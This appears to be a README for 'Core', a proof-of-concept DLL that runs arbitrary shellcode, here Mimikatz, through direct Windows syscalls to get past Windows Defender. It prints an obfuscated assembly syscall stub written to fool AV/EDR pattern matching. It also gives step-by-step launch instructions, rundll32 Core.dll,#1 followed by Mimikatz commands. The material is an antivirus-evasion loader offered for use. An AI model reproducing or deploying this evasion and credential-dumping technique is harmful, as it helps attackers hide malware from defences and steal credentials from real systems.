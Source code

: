 # Core
Core bypass Windows Defender and execute any binary converted to shellcode. Core is NOT using any mechanism to prevent
AV/EDR from debug/inspect this code.

Core uses syscall to execute shellcode, any kind of shellcode, in this PoC Mimikatz is converted to shellcode (.exe version)
Core is not calling any API but create memory mapped file and then calls the Nt or Zw functions.

This version uses a static pattern that represent the syscall, the next version create dynamics pattern that change with every call !

The inner soul of syscalls in 64bit:

```
mov     r10,rcx
mov     eax,0C1h
test    byte ptr [SharedUserData+0x308 (00000000`7ffe0308)],1
jne     ntdll!NtCreateThreadEx+0x15 (00007ffa`8c50e635)
syscall
ret
```
or maybe

```
mov r10, rcx
mov eax, 0xC1
syscall
ret

```

but why this syntax ? it too easy for AV/EDR reg.ex pattern matching engine to detect this, why not make more complex or foolish


```

mov BH, 0x5
mov BL, 0x6
cmp BH,BL
mov BH, 0x2
mov BL, 0x4
cmp BH,BL
mov BH, 0x7
mov BL, 0x8
cmp BH,BL
jne go 

labelb:
sub rax, 0x3E8
jmp labelc

nop
labelc:
mov r10,rbx
mov r15, 0x64
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1
sub r15, 0x1

mov BH, 0x3
mov BL, 0x2
cmp BH,BL
mov BH, 0x6
mov BL, 0x9
cmp BH,BL
mov BH, 0x9
mov BL, 0x3
cmp BH,BL

syscall
nop
nop
nop
ret

labela:
mov rax, 0x438
nop
jmp labelb

go:
nop
mov rbx, rcx
jmp labela
```

Start cmd.exe with argument coffee like this:

cmd coffee

then run rundll32 Core.dll,#1

don't type your Mimikatz in the mimikatz # prompt, hit ENTER once and type Mimikatz commands.


